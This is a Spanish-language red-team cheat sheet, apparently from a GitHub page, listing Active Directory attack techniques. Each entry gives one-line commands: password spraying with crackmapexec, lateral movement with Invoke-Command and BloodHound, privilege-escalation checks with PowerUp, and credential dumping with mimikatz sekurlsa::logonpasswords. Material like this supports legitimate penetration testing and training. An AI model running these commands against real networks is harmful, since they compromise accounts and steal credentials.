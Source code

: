 ### Password Spraying
- **Descripción**: Prueba una contraseña común en muchos usuarios.
- **Método**: Ataque de baja y lenta frecuencia.
- **Herramienta**: `CrackMapExec`, `Ruler`.
- **Comandos**:
  - **Windows**:
    ```bash
    # Usar herramientas específicas de Linux/Kali.
    ```
  - **Kali Linux**:
    ```bash
    crackmapexec smb 192.168.1.10 -u users.txt -p password
    ```

### Lateral Movement
- **Descripción**: Movimiento dentro de la red utilizando credenciales comprometidas.
- **Método**: Uso de credenciales y permisos obtenidos.
- **Herramienta**: `BloodHound`, `PowerShell`.
- **Comandos**:
  - **Windows**:
    ```powershell
    Invoke-Command -ComputerName <target> -Credential <creds> -ScriptBlock {commands}
    ```
  - **Kali Linux**:
    ```bash
    bloodhound-python -c All -u <username> -p <password> -d example.com -ns <domain controller>
    ```

### Privilege Escalation
- **Descripción**: Aumento de privilegios usando vulnerabilidades o configuraciones incorrectas.
- **Método**: Explotación de vulnerabilidades.
- **Herramienta**: `PowerUp`, `Sherlock`.
- **Comandos**:
  - **Windows**:
    ```powershell
    . .\PowerUp.ps1; Invoke-AllChecks
    ```
  - **Kali Linux**:
    ```bash
    # Realizar ataques desde una máquina Windows utilizando PowerUp o Sherlock.
    ```

### Credential Dumping
- **Descripción**: Extracción de credenciales de la memoria.
- **Método**: Uso de herramientas de volcado de memoria.
- **Herramienta**: `Mimikatz`, `gsecdump`.
- **Comandos**:
  - **Windows**:
    ```bash
    mimikatz # sekurlsa::logonpasswords
    ```
  - **Kali Linux**:
    ```bash
    # Realizar volcado de credenciales en una máquina Windows utilizando Mimikatz.
    ```
